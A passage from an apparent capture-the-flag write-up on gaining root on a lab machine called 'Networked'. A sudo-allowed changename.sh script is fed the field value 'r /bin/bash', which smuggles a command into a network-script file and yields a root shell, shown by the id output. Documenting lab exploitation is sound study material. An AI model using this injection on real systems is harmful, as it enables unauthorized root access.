 So we have one file where our input is written down. One invalid interface.

###### `Root Through network-scripts`
https://seclists.org/fulldisclosure/2019/Apr/24

The above article helped me in getting the root shell.
```
[guly@networked ~]$ sudo /usr/local/sbin/changename.sh
sudo /usr/local/sbin/changename.sh
interface NAME:
ringbuffer
ringbuffer
interface PROXY_METHOD:
r /bin/bash
r /bin/bash
interface BROWSER_ONLY:
i
i
interface BOOTPROTO:
n
n
[root@networked network-scripts]#
[root@networked network-scripts]# id
id
uid=0(root) gid=0(root) groups=0(root)
```

If, for whatever reason, a user is able to write an ifcf-whatever script to /etc/sysconfig/network-scripts or it can adjust an existing one, then your system in pwned.

![](Networked_web3.png)

Get your root flag.
